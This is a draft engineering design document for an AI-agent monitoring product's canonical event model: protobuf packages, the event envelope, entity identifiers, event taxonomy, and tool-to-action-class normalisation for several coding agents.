

# 04. Event model and schemas

_Status: draft 5 against spine version 4, the owner answers (`_review/02-owner-answers.md`), rulings R-02, R-08 and R-15 to R-19 (`_review/01-document-rulings.md`) and the owner's instructions of 2026-11-11 (`_review/04-owner-kit-instructions.md`; P15, P17, D-69). Date: 2026-11-10. Owning squad: `core` (SQ-01; crates `grdr-proto`, `grdr-schema`, `grdr-model`). Read with: `00-decisions.md` (D-06, D-39, D-51, D-52, D-54, section 3), 03 (daemon and engine split), 05 (inventory), 06 (attribution), 07 (decision protocol, assurance record), 12 (verdict and grant messages), 13 (detections), 16 (capture and redaction), 18 (approvals, incident workflow), 20 (lake format), 22 (transport protocol), 25 (export destinations), 29 (privacy regimes)._

## Summary

This document fixes the canonical data model: the protobuf packages, the envelope every event carries, the entities and how their identifiers are minted, the event taxonomy, and the records built on it (decision record, receipt, finding, incident, agent bill of materials). Everything else in the product reads or writes these shapes: the lake is this model flattened, OCSF is a generated view, and OTel GenAI, OpenInference and OpenLLMetry are ingest dialects (D-06).

Key choices:

1. **Nine data packages under `grdr.*.v1alpha1`**, one codec, `buf` lint and breaking checks, freeze before the server's first release. Brief 23's eight evolution rules are normative, with one stated narrowing (closed enums).
2. **One envelope** with the D-06 fields. Ordering and idempotency use `(device, epoch, lane, seq)`, never wall time. Five lanes; one is device-only and written only by the daemon.
3. **Identifiers are opaque, prefixed strings** minted by the sensor or server, never by the harness. Harness ids are carried as claimed `native_*` fields.
4. **Fifteen action classes are closed.** A tool name that maps to none produces a `tool.call` with a `tool.unmapped` fact and no action; there is no "other" action.
5. **Every field carries `data_class`** (identifier, structural, derived, content). Content fields also carry `content_kind` (argument or body), which is what makes the four capture levels a mechanical filter. Sealed fields are a reserved seam, emitted only in the endpoint-sealed key mode (D-35).
6. **Class-partitioned commitments**: an event's digest is built from one salted digest per data class, each derived from the bytes as sent, so the same hash chain verifies a metadata-only upload, a later evidence upload and a record whose content has expired (D-39, D-57).
7. **Provenance grade is a six-step ordinal stamped by the daemon, never claimed by the producer; attribution is an evidence set with a fixed grade table.** Policy reads grade and evidence, never the advisory score.
8. **Roll-ups carry a Merkle root** over elided events held in the flight recorder, so an evidence upload can prove inclusion (D-52).
9. **Mappings are versioned data** with golden tests: OCSF 1.9 plus an `adr` extension, a 1.3 down-converter, OTel GenAI at a pinned commit, ECS 9.5, ASIM (including the new Agent Event schema) and UDM.
10. **Four local feed formats** render the same JSON profile, filtered by capture level on the device (embedding option L1).

## Requirements

| # | Requirement | Source |
|---|---|---|
| R1 | Own protobuf model; envelope fields as listed in D-06; packages `v1alpha1`, frozen before the server's first release; `buf breaking` gates | D-06, c5 F9 |
| R2 | Every field has a data class; capture level is a device-side filter; default upload is metadata | D-51, P8, l07 F2 |
| R3 | Human principals are pseudonymous outside the identity vault | D-51, l07 F1 |
| R4 | Attribution is an evidence set, a fixed ordinal grade and an advisory score; `actor_kind` includes `undetermined` | Section 3, D-25, c4 F2 |
| R5 | Claims and observations are distinguishable on every event; no verdict rests only on a spoofable source | P3, h02 |
| R6 | Always-shipped classes, roll-ups with a Merkle root, gaps reported as events | D-52, P9, c5 F1 |
| R7 | Per-lane hash chain, signed batch heads, salted digests so erasure does not break chains | D-39, D-57 |
| R8 | Receipts record the session-state sequence number so replay is exact | D-09 |
| R9 | Findings: five classes, two ratings, OCSF finding states, stable ids with update events; incidents group by session lineage | Section 3, D-54, l03 F3, F10 |
| R10 | Export through down-converters that are versioned data with golden tests; Security Lake accepts OCSF 1.3 at most | D-54, brief 26 |
| R11 | L1 local feed: Windows Event Log channel, journald, unified log, JSON lines | D-41 |
| R12 | Agent, MCP server, skill and plugin inventory exportable as a bill of materials; no standard exists | Owner request, briefs 23, g06 |
| R13 | Each pack declares the fields and data classes it reads | P7, l07 F7 |
| R14 | Storage and bus are designed at 5,000 and 100,000 events per endpoint per day | D-52, c1 F2 |
| R15 | The core is sans-IO and replayable: every record needed to reproduce a verdict is in the model | D-05, P5 |
| R16 | Every read of a person's data and every re-identification is a record the subject can be shown | P8, D-51 |

## Design

### 1. Package layout and naming rules

Source lives in `proto/grdr/<area>/v1alpha1/*.proto`. `grdr-proto` holds generated code only; `grdr-schema` holds the Cedar schema, the field registry and the mapping files (layer 0, data only).

| Package | Contents | Owner of semantics |
|---|---|---|
| `grdr.common.v1alpha1` | Field and enum options, id and digest types, shared enums (`ActionClass`, `ControlPoint`, `VerdictCode`, `Mode`, `CaptureLevel`, `DataClass`), `Redaction`, `Sealed`, `MessageRef` (a language-token id, typed arguments each with a `data_class`, and the source hash; D-69), `ErrorDetail` (code, reason, class, message and fix token ids, docs anchor; 03 section 10) | This document |
| `grdr.entity.v1alpha1` | The entities in section 3 | This document; 05 for inventory behaviour |
| `grdr.event.v1alpha1` | `Envelope`, `Event`, one payload message per category | This document |
| `grdr.decision.v1alpha1` | `DecisionRecord`, `Receipt`, `Expectation` | This document; 07 for expectation semantics; 12 for the `Verdict` and `Grant` messages the record embeds |
| `grdr.finding.v1alpha1` | `Finding`, `Incident`, `Suppression`, `EvidenceSpan`, `Observable` | This document; 13 for rule metadata; 18 for workflow |
| `grdr.assurance.v1alpha1` | `AssuranceRecord`, capability probe results | 07 |
| `grdr.inventory.v1alpha1` | Inventory change records, `AgentBom` | This document and 05 |
| `grdr.feed.v1alpha1` | Local feed header, summary record, gap record | This document |
| `grdr.export.v1alpha1` | Export record wrapper with cursor and revision | This document; 25 for destinations |

Packages owned by other documents import these, and nothing here imports them: `grdr.policy` (12: the `Verdict` and `Grant` messages), `grdr.intel` (14: intelligence records, sightings), `grdr.review` (19: review jobs), `grdr.decide` and `grdr.provider` (07: services), `grdr.local`, `grdr.config` and `grdr.internal` (03), and the services `grdr.ingest`, `grdr.fleet` and `grdr.api` (22, 23). `grdr.decision` holds records; `grdr.decide` is the service that produces them. The shared enum is named `VerdictCode` so that it does not collide with 12's `Verdict` message.

Naming rules, enforced by `buf lint` (STANDARD) plus `grdr-schema-lint`:

1. Messages `PascalCase`, fields `snake_case`, enum values `ENUM_NAME_VALUE` with `_UNSPECIFIED = 0`. Open enums (anything a third party can extend: channel, evidence, entity kind) also have `_OTHER = 99` with a sibling `<field>_other` string. Closed enums (`ActionClass`, `VerdictCode`, `Mode`, `ActorKind`, `DataClass`, `Provenance`) have no `_OTHER`.
2. Every enum value has a `wire_name` option: the string used in JSON, Cedar, rule fields and feeds (`ACTION_CLASS_FILE_READ` is `file.read`). The Cedar schema and the Sigma field taxonomy are generated from these options; a drift test fails the build if they differ. The Sigma log source for our events is `product: grdr`, `category` the event category and `service` the class; field names are registry paths (13 owns the rules that use it).
3. Identifiers are `string` with a type prefix and are never parsed. Digests are `bytes` (32 bytes for SHA-256, the algorithm fixed by `schema_rev`) on the wire, in the spool and in the archive; `<alg>:<lowercase hex>` is their rendering in JSON, feeds, Cedar and exports. Wall time is `google.protobuf.Timestamp` in UTC.
4. No `google.protobuf.Any`, no `Struct`, no free-form map except `native` (the untouched harness payload, class content). No floating point in any field marked `policy_readable`.
5. Field numbers 1 to 15 are kept for envelope and hot payload fields. Field numbers 900 to 999 in every message are reserved for the sealed-field and third-party-proof seams (D-35, D-39) and are used by nothing else.
6. One file per message family; a file never exceeds one category.

Codec: one codec that preserves unknown fields generates `grdr-proto`. First choice `buffa`; fallback `prost` with the rule that ingest and relays never re-encode an event and always forward the original bytes. Spike SP-1 decides.

```proto
// grdr/common/v1alpha1/options.proto (option numbers move to a registered range, work item 04-4)
extend google.protobuf.FieldOptions {
  DataClass   data_class      = 50001; // required on every field
  ContentKind content_kind    = 50002; // required when data_class = CONTENT
  bool        policy_readable = 50003; // may appear in Cedar context or a pack's declared reads
  bool        sealable        = 50004; // has a Sealed twin (D-35)
}
extend google.protobuf.EnumValueOptions { string wire_name = 50011; }

// grdr/event/v1alpha1/envelope.proto
message Envelope {
  string event_id        = 1;  // evt_, UUIDv7
  string organisation_id = 2;
  string device_id       = 3;
  uint32 epoch           = 4;
  Lane   lane            = 5;
  uint64 seq             = 6;
  google.protobuf.Timestamp observed_time = 7;
  uint64 monotonic_ns    = 8;
  EventClass class       = 9;
  Trace trace            = 10; // trace_id, span_id, parent_span_id (W3C)
  Principal principal    = 11;
  ActorChain actor_chain = 12;
  ActorKind actor_kind   = 13;
  Attribution attribution = 14;
  Source source          = 15;
  Integrity integrity    = 16;          // 16 to 18 describe this copy and are outside every class digest
  CaptureLevel capture_level = 17;      // level applied to this copy
  repeated string withheld = 18;        // classes removed by the filter, e.g. "content.argument"
  repeated Redaction redactions = 19;   // made once, at capture (section 11)
  repeated string corroborated_by = 20; // event ids from another control point
  Workload workload      = 21;          // container-origin events only (section 2)
  reserved 900 to 999;                  // sealed envelope fields, third-party proof (D-35)
}
```

### 2. Envelope

| Field | Definition | Data class |
|---|---|---|
| `event_id` | `evt_` plus the UUIDv7 in 26-character Crockford base32. Minted by the daemon when it stamps the envelope (03), or by the server for its own records, from the injected clock and randomness (D-05) | identifier |
| `organisation_id` | From the device credential; standalone uses the random id made at install, which becomes an alias on `grdr join` (D-48) | identifier |
| `device_id` | See section 3 | identifier |
| `epoch` | Counter in the daemon's state directory (root-owned in the Protected profile), incremented each time the minimal core starts and whenever the device key changes. The per-boot signing key is bound to it (D-39). An epoch that reappears with a different chain (a restored image, a copied state directory) is the clone finding of D-36 | structural |
| `lane`, `seq` | `seq` starts at 1 per epoch and lane and has no holes. `(device, epoch, lane, seq)` is the idempotency key and the order within a lane (D-33, D-36). Across lanes of one device the order is `(epoch, monotonic_ns)`; wall time never orders anything | structural |
| `observed_time`, `monotonic_ns` | Wall clock and monotonic clock at observation, both from the injected clock. The server records receive time and skew beside the event, never inside it | structural |
| `trace` | W3C trace context. A turn is a trace; a tool call is a span. A harness `TRACEPARENT` is adopted when present, otherwise the daemon mints one (07) | identifier |
| `principal` | `pseudonym`, `kind` (human, service, agent-identity), `mapping` (os-user, idp-subject, workload-identity, connector-account, declared), `identity_proof` (observed, self-asserted, IdP-issued, attested; D-27) | identifier |
| `actor_chain` | `agent_type_id`, `agent_instance_id`, `sessions[]` from root to the acting child, `tool_call_id` | identifier |
| `actor_kind` | `agent`, `human`, `undetermined`, `system` | derived |
| `attribution` | `evidence[]`, `grade`, `score` (section 9) | derived |
| `source` | `control_point` (the eight in section 3 of the spine); `channel`, an open enum (`hook-callback`, `sdk`, `native-otel`, `transcript`, `ebpf`, `etw-kernel`, `etw-user`, `endpoint-security`, `network-extension`, `fanotify`, `procfs`, `broker-inline`, `proxy-inline`, `sandbox`, `connector-api`, `detect`, `sysmon`, `win-event-channel`, `win-driver`, `wesp`, `host-edr`, `seccheck`); `provenance` (section 9); `component` (the program that observed); `adapter` and version; `agent_version`; `host_profile` (embedded hosts, D-60) | structural |
| `integrity` | Section 10 | structural |
| `capture_level`, `withheld`, `redactions` | Section 11 | structural |
| `corroborated_by` | Events from a different control point that describe the same action, set on the later event of the pair; the earlier event is never amended. This, not a grade, is what "cross-checked" means in the assurance record | identifier |
| `workload` | Kubernetes identity tuple of 10 section 10, set only on container-origin events: `cluster_uid`, `namespace`, service account name and uid, `pod_uid`, `container_name`, `image_digest`, owner uid, `runtime_class`, `node`, `spiffe_id`, cloud principal, `exec_id`. Populated by the Kubernetes mode (requires the Linux sensor, D-19); without that mode the same values travel as `x.k8s.*` facts | identifier |

Lanes. Each lane has its own sequence and its own hash chain, so shedding bulk data never opens a hole in the decision chain.

| Lane | Carries | Shed order |
|---|---|---|
| `decision` | Receipts, outward receipts, grants, findings, incidents, response, audit, gaps | Last (see below) |
| `spine` | Session, tool call, action intents, labels, `cred.use`, `config.change`, `agent.spawn`, `mcp.*`, `llm.request` metadata, inventory, identity and lease records, hook and assurance state, process start and exit, first-seen effects | After evidence (D-52) |
| `bulk` | Roll-ups, health, coverage | First, oldest first, with a gap event |
| `evidence` | Flight-recorder look-back and content sent under a finding or a content grant | After bulk |
| `local` | Collector observations and default-allow decision records at full fidelity (the flight recorder). Never uploaded as a lane; referenced by roll-ups and by the effects built from it | Expires by policy (default 72 hours) |

`decision` and `spine` are never sampled and never shed by quota (D-52, D-68). Classes marked `urgent` in the generated lane table (`session.start`, `action.agent.spawn`, `action.config.change`, `action.cred.use`) flush the `spine` batch at once instead of waiting for the server-directed interval (22 section 2.2). Only a spool at its disk cap with `bulk` and `evidence` already empty sheds them, oldest `spine` first, and each loss is a `health.gap` that carries the chain value on both sides of the hole, so verification resumes after it and the device shows Degraded (P9).

Writers (03 section 5.2). The daemon assigns `seq`, computes `integrity` and appends, in every lane; the engine holds no chain state and no signing key. Collector observations are stamped into `local` before the engine sees them. The engine cannot submit a record to that lane; the only engine output in it is the default-allow decision record that the daemon itself relayed to a control point. What the engine authors (normalised intents, labels, findings, roll-ups, the shipped form of an effect or a process event) is appended by the daemon to the other lanes, and any record built from a collector observation carries the `local` sequence number or range it was built from. A verifier can therefore check a shipped effect against the daemon-stamped chain for as long as the recorder holds it. From the engine the daemon accepts only the classes whose source in section 4 is `core` and the normalised form of a request or observation that the daemon itself forwarded, matched by its `local` sequence number or request id; it refuses anything else, and any provenance value the engine supplies, and raises a tamper finding.

Server-authored records (`incident.state`, `audit.*`, `response.command`, fleet-level findings) use the same envelope with an emitter id (`srv_`) in `device_id`, the server epoch of D-57 and the `decision` lane, and are chained into the per-organisation checkpoint chain of D-39.

Document 22 owns scheduling, batching and acknowledgement. This document owns the enum and the rule that an event's lane is a pure function of its class, phase and fidelity or classification outcome (section 4), assigned by the daemon from a generated table and never chosen by the producer.

### 3. Entities and identifiers

All ids are `<prefix>_<26 base32 characters>` unless the table says otherwise. "HMAC" means HMAC-SHA-256 under the organisation's entity key (delivered at enrolment, generated at install in standalone), truncated to 128 bits; it gives equality joins inside one organisation and nothing across organisations. Other hash-derived ids are also truncated to 128 bits. On `grdr join` (D-48) ids already minted under the standalone key are not rewritten: back-filled history keeps them, and the device registers each old entity id as an alias of the one minted under the organisation key.

Principal pseudonyms have two layers (D-51, R-18). The sensor derives a device pseudonym under a device pseudonym key generated on the device and never uploaded, so standalone works offline and a local administrator can link only their own device's records. In platform deployments the `ingest` target re-pseudonymises at ingest under an organisation pseudonym key the device never holds (21 owns both keys and the derivation). The archived batch keeps the device pseudonym inside the signed bytes, so chains still verify; the server pseudonym is written to the ingest sidecar record (Behaviour by deployment shape), and the lake, query, findings, incidents and exports use it. On-device sinks (local history, feeds, the local console) carry device pseudonyms. Owner question 9 can move issuance entirely to the server.

| Entity | Prefix | Minted by | Identity key | Attributes that are not identity |
|---|---|---|---|---|
| Organisation | `org_` | Server at creation; installer in standalone | Random | Region, parent provider ids (D-68). Provider, organisation set and group ids belong to 21 and are not on events |
| Device | `dev_` | Sensor at install or enrolment | SHA-256 of the device public key at first enrolment; for ephemeral workloads, workload identity plus instance id (D-36). The id survives key rotation: the old key signs the new one and `epoch` increments | Key protection (hardware, os-keystore, file), OS, architecture |
| Principal | `prn_` (human), `svc_` (service), `aid_` (agent identity) | Sensor; for humans the server re-pseudonymises at ingest (above) | HMAC (for humans, under the device pseudonym key) over kind and the stable local identity (SID, uid with machine id, IdP subject when known; for an agent identity the SPIFFE-style id of D-27) | Mapping method, identity proof. A human's name mapping goes only to the identity vault; the event stream carries an `identity.mapping` record that holds no name (section 4) |
| Agent type | `agt_<slug>` for catalogue entries; `agt_x_` plus HMAC for bespoke | Catalogue; sensor for bespoke | Program identity: signing identity, else package or image name, else source remote and entry point, else path (D-24) | Version, executable hash, catalogue tier, `session_exclusive` |
| Agent instance | `agi_` | Sensor | HMAC over agent type, principal and device (or workload, not pod) and configuration root | Sponsor, credential mode, containment mode |
| Session | `ses_` | Sensor, never the harness (D-25) | UUIDv7 | `native_session_id` (claimed), `parent_session_id`, `root_session_id`, container reference, working-directory class |
| Tool call | `tc_` | The daemon, for the first control point that reports it (07) | UUIDv7; its span id is in `trace` | `native_tool_use_id`, native tool name |
| Action | `act_` | Core, at normalisation | UUIDv7 | Class, phase, `action_digest` |
| MCP server | `mcp_` | Sensor or broker | stdio: HMAC over package identity and canonical launch command; HTTP: origin plus declared registry name | Transport, protocol revision, config source, server digest |
| MCP tool | `mct_` | Broker or sensor | HMAC over server id and tool name | `manifest_hash`: SHA-256 over the JCS form of name, description, input schema and annotations (the tool-manifest hash of D-08 and D-54); separate description and input-schema fingerprints to match OCSF `ai_capability` |
| Skill, plugin | `skl_`, `plg_` | Sensor | HMAC over source URI (or marketplace and name) and install scope | `content_digest`: Merkle root over files in path order. Drift is the same id with a new digest |
| Model endpoint | `mdl_` | Proxy or sensor | HMAC over provider, origin and deployment or model name | Tenant marker (tenant or non-tenant provider, D-28) |
| Credential reference | `crd_` | Sensor or broker | HMAC over type and a stable public part (key id, certificate fingerprint, token `jti`). Never derived from secret bytes | Type, store, scope, lease id, honeytoken flag |
| Process | `prc_` | Sensor | Hash of device, boot id, pid and start time; an `exec_generation` counter separates images in one pid | Executable identity (`exe_`, the file digest), parent, creating process, session container |
| File | none | - | `PathRef` (section 11) plus content digest when one was computed | Volume and inode key (structural) |
| Network flow | `flw_` | Sensor or proxy | Hash of device, boot id, five-tuple and start time | SNI, host class, byte counts |
| Decision | `dec_` | Core | UUIDv7 | - |
| Finding | `fnd_` | Detection engine | Hash of organisation, rule id, group-by key and window start, so replay and retro runs are idempotent | `revision` |
| Incident | `inc_` | Server, or the daemon in standalone | UUIDv7 at first grouping; merges keep the older id and set `merged_into` on the other | `revision` |
| Operator account | `opa_` | Server, in the operator realm (21 section 17) | UUIDv7 | Passkeys, roles in `Grdr::Operator`; never an organisation member |

Entities are referenced from events by id and described once through `inventory.*` records, which are emitted only on change, with `first_seen`, `last_seen` (derived by the server from observations, never refreshed by re-sending) and a change kind; one `inventory.digest` record a day (section 4: count and Merkle root over current inventory ids and digests) lets the server ask for the full list only on a mismatch, under backfill credit. For publicly distributed artefacts an inventory record also carries the global, unkeyed artefact key of 14 section 3 (class identifier) beside our HMAC id. An event never embeds a full entity. Ids defined elsewhere follow the same form: grants (`grt_`) and retry tokens (`rty_`) in 12, expectations (`exp_`) in 07, suppressions (`sup_`) in section 8.



### 4. Event taxonomy

The privacy column names the most sensitive payload class present at capture level `metadata`, in the order structural, derived, identifier, and then what higher levels add. Our own minted ids do not count towards it; external identifiers do (hosts, artefact digests, keyed digests of arguments, credential references). Fidelity follows D-52: A is always shipped; F is shipped when its executable, destination or path prefix is first seen in the session; R is repeated and allowed, stays in `local` and is counted in a roll-up. In the source column, `core`, `daemon`, `server` and `approval helper` are components, not control points: such records always set `source.component` and set `source.control_point` only when one control point triggered them.

| Category | Class | Key fields | Source control points | Lane, fidelity | Privacy at `metadata`; higher levels add |
|---|---|---|---|---|---|
| session | `session.start`, `session.end` | Session ids, agent type and version, permission mode, container reference, canary state (07), end reason | hook, sandbox, sensor, connector | spine, A | derived; none |
| session | `session.turn` | Turn index, prompt digest (HMAC) and size, model, token counts, stop reason | hook, proxy, sensor (native OTel, transcript) | spine, A | identifier; prompt text (body) |
| session | `session.label` | Label, kind, origin, rule id, `state_seq`, `label_epoch`, scope, decay | core | spine, A | derived; none |
| session | `session.link` | Edge kind (fork, exec, member, bound, ipc, brokered, artefact, influenced-by, child-session, resume, handoff, outward; 06 section 10), from, to, grade; supersedes an earlier attribution without editing it | sensor, core | spine, A | derived; none |
| tool | `tool.call` | Tool call id, native tool name, phase (requested, completed, failed, denied), action ids, sizes, duration | hook, mcp-broker, proxy | spine, A | structural; arguments (argument), result (body) |
| action | `action.exec` | Executable identity, command classes, argv count and digest (HMAC), working-directory class, resolution, phase, outcome | hook, sensor, sandbox | Intent: spine, A. Effect: spine if F, else local, R | identifier; canonical argv (argument) |
| action | `action.file.read`, `.write`, `.delete` | `PathRef`, bytes, content digest on write, workspace-relative flag | hook, sensor, sandbox | As `action.exec` | identifier; path (argument), diff (body) |
| action | `action.net.connect` | Destination host or address, port, SNI, host class, flow id | sensor, proxy, sandbox | Effect only: spine if F, else local, R | identifier; none |
| action | `action.net.request` | Method, host, path class, status, bytes, egress-profile match | proxy, hook, browser, gateway | spine, A | identifier; URL path and query (argument), bodies (body) |
| action | `action.llm.request` | Model endpoint id, model, token counts, tool-definition count, stream flag, response id, stop reason | proxy, gateway, sensor (native OTel), connector | spine, A | derived; messages (body) |
| action | `action.mcp.connect` | Server id, transport, protocol revision, tool count, manifest set digest | mcp-broker, sensor, gateway | spine, A | identifier; none |
| action | `action.mcp.call` | Server and tool ids, manifest hash and pin state, hint flags, argument classes, sizes | mcp-broker, hook, gateway | spine, A | identifier; arguments (argument), result (body) |
| action | `action.cred.use` | Credential reference, store, mode (inject, release), `lease_id`, `peer_verified` (the broker matched the caller to a kernel peer, D-27), target class | sensor, proxy, mcp-broker (broker of D-27) | spine, A | identifier; none |
| action | `action.agent.spawn` | Child agent type, child session id, spawn route, inherited labels | hook, sensor, sandbox | spine, A | derived; none |
| action | `action.config.change` | Artefact kind and owner (which agent or our own), path class, before and after digest, writer lineage | sensor, hook | spine, A | identifier; diff (body) |
| action | `action.elevate` | Elevation path (sudo, UAC, container socket, systemd, launchd, Task Scheduler, WMI, launcher), target principal | sensor, hook | spine, A | derived; command (argument) |
| action | `action.ui.act` | Target application or origin, action kind, synthetic-input evidence from process-side signals only (D-51) | browser, hook, sensor | spine, A | identifier; element text (body) |
| action | `action.data.flow` | Source labels, sink class, sink identity, bytes | core, proxy | spine, A | identifier; none |
| action | `action.rollup` | Tool call id, groups (class, key, count, bytes), elided `local` range, Merkle root, bundle digest | core | bulk, A | identifier; none |
| decision | `decision.verdict` | Unsigned decision record for a default ALLOW (section 7) | Every control point | local, R | derived; none |
| decision | `decision.receipt` | Signed decision record for every other decision | Every control point | decision, A | identifier; none |
| decision | `decision.grant` | Grant id, lifecycle (minted, consumed, voided, expired), approval grade, action digest (schema in 12) | core, approval helper | decision, A | identifier; none |
| expectation | `expectation.open`, `expectation.close` | Expectation id, tool call id, process key, action class, effect-descriptor digest, window; close reason (post-event, expired, session-end) and matched-effect count (07 section 9) | core | local; a `close` that ends unmatched or mismatched also goes to spine | identifier; none |
| process | `process.start`, `process.exit` | Process key, parent and creator, executable identity, exit code, session container | sensor | spine, A | identifier; none |
| inventory | `inventory.agent`, `.mcp_server`, `.mcp_tool`, `.skill`, `.plugin`, `.model_endpoint`, `.credential`, `.config`, `.device` | Entity record, change kind (first-seen, changed, drift, removed), evidence tokens, could-not-look reasons | sensor, mcp-broker, connector | spine, A; an `inventory.agent` record whose discovery outcome is `llm-client` stays in `local` until it rises to `agent-suspected` or the organisation enables `llm-client` upload (05 section 5) | identifier; none |
| inventory | `inventory.digest` | Once a day: count and Merkle root over the device's current inventory ids and digests (section 3) | sensor | spine, A | structural; none |
| hook | `hook.state` | Agent instance, owner of the managed source, hook state and canary proofs as 07 enumerates them | daemon | spine, A | derived; none |
| assurance | `assurance.record` | The assurance record for one device, agent instance and action class, on change, with `next_level_blockers` (07 section 11) | core | spine, A | derived; none |
| health | `health.sensor` | Capability probe, enforcement state per action class, loss counters | sensor | bulk, A | structural; none |
| health | `health.gap` | Lane, missing range, chain value on each side, reason (spool-drop, spool-full, recorder-expired, quota, crash), count | sensor, server | decision, A | structural; none |
| health | `health.coverage` | Could-not-look ledger: scope, reason (no-permission, sensor-loss, not-calibrated, excluded, file-filter-detached, unparsed, vm-guest, engine-overload, detect-lag, quota), counts | sensor, core | bulk, A | derived; none |
| finding | `finding.state` | Section 8, one event per revision | core (device), server | decision, A | identifier; evidence spans (argument) |
| finding | `incident.state` | Section 8 | server, daemon | decision, A | identifier; none |
| response | `response.command`, `response.action` | Command id, signers, scope; effective action, fallback, result, undo reference | server, sensor | decision, A | identifier; none |
| audit | `audit.admin` | Actor, `realm` (`organisation` or `operator`), operation, widening flag, approval grade, before and after digest | daemon, server | decision, A | identifier; none |
| audit | `audit.access` | Reader (role and pseudonym), what was read (session, finding, content reference) or that a pseudonym was re-identified, purpose, incident reference, approvers, content grant id. The subject's "who looked" view reads this class (D-51) | server, daemon (for reads by `grdr console serve` through its local API) | decision, A | identifier; none |
| audit | `audit.checkpoint` | Chain heads per lane, `local` included, with a signature | sensor, server | decision, A | structural; none |
| identity | `identity.mapping` | Pseudonym, mapping method, digest of the vault record. The name itself travels only in the call to the `identity` target (D-33) and never in a lane, so no archived batch holds it | sensor | decision, A | identifier; none |
| identity | `identity.lifecycle` | Agent instance, lifecycle change (sponsor transferred, suspended, retired, credential adopted), sponsor pseudonym, actor (15) | server, daemon | spine, A | identifier; none |
| identity | `identity.correlation` | Agent instance, external identifier and its source, `identity_proof`, correlation basis (15) | server, connector | spine, A | identifier; none |
| identity | `credential.lease` | Lease id, credential reference, agent instance, session, lifecycle (issued, renewed, revoked, expired), scope, expiry (15) | sensor, proxy, mcp-broker (broker of D-27) | spine, A | identifier; none |
| outward | `outward.receipt` | External system, external object id, session, pseudonym, tool call, grade, evidence; signed like a decision receipt (D-26; 06 section 13) | core, daemon | decision, A | identifier; none |
| content | `content.blob` | Content reference, owning event and field path, key reference | hook, proxy, mcp-broker | evidence | content |

An action event has a `phase`: `intent` (seen before execution at a hook, broker or proxy), `effect` (observed by the OS or a mediating control point) or `result` (reported after). Intent and effect are separate events joined by `tool_call_id`, the expectation (section 7) and `corroborated_by`.

### 5. Action classes and normalisation

Normalisation has two stages, both pack data validated by the production interpreter (P7):

1. **Tool table.** Each agent adapter manifest maps native tool names or hook event names, per tested version range, to a primary action class and an argument extractor.
2. **Analysers.** The canonicaliser and path resolver (D-10) refine the action and may add secondary actions from command classes: `rm` or `Remove-Item` adds `file.delete`; `curl` or `Invoke-WebRequest` adds `net.request`; `git push` and `npm publish` add `data.flow` to a sink; `sudo`, `runas`, container-socket clients, `systemctl`, `launchctl` and `schtasks` add `elevate`; launching a catalogued agent binary adds `agent.spawn`; a write under any agent's control files becomes `config.change`.

Seed tool table. (v) is verified in brief 15 or 17; (u) is from prior knowledge and must be confirmed by the adapter's install-proof job before the row leaves Tier 3.

| Action class | Claude Code (`tool_name`) | Codex (hook dialect) | Cursor (hook event) | Copilot CLI |
|---|---|---|---|---|
| `exec` | `Bash` (v); `PowerShell` (u) | `Bash` (v) | `beforeShellExecution` (v) | `preToolUse` with shell tool (u) |
| `file.read` | `Read`, `Glob`, `Grep` (u) | none at hooks; OS only | `beforeReadFile` (v) | `view` (u) |
| `file.write` | `Write`, `Edit`, `MultiEdit`, `NotebookEdit` (u) | `apply_patch`, matchable as `Edit` or `Write` (v) | `afterFileEdit` (v), observation only | `edit`, `create` (u) |
| `file.delete` | Derived from `exec` | `apply_patch` delete hunks | Derived | Derived |
| `net.request` | `WebFetch`, `WebSearch` (v, named in the sandbox exclusions) | Hosted web search is not covered by hooks (v); proxy or OS only | Derived, or `preToolUse` (u) | Derived |
| `llm.request` | Proxy, or OTel `api_request` (v) | `PreModelRequest`, `PostModelRequest` (v) | Proxy | Proxy |
| `mcp.call` | `mcp__<server>__<tool>` (v) | `mcp__<server>__<tool>` (v) | `beforeMCPExecution` (v) | MCP tool via `preToolUse` (u) |
| `agent.spawn` | `SubagentStart` event (v); `Task` tool (u) | `SubagentStart` (v) | `subagentStart` (v) | `subagentStart` (v) |
| `config.change` | `ConfigChange` event (v) plus OS observation | OS observation | OS observation | OS observation |
| `ui.act` | Computer-use and browser tools (u) | `[computer_use]`, `[browser_use]` surfaces (brief 16) | none | none |

`net.connect`, `cred.use`, `elevate`, `mcp.connect` and `data.flow` never come from the tool table: they come from the OS, the broker, the proxy and the core. MCP tool-name parsers are per adapter because the separators differ (`mcp__s__t` in Claude Code and Codex, `mcp_<s>_<t>` in Kiro; brief 15).

Rules:

- An unmapped tool name emits `tool.call` with fact `tool.unmapped` and no action. The adapter raises one coverage-gap finding per agent version and tool name and never denies (D-10); whatever the tool does is still judged at the OS control point as undeclared activity (07 section 9).
- A tool call may produce several actions; each has its own `action_id` and decision, and the primary action lists the others in `secondary_actions`.
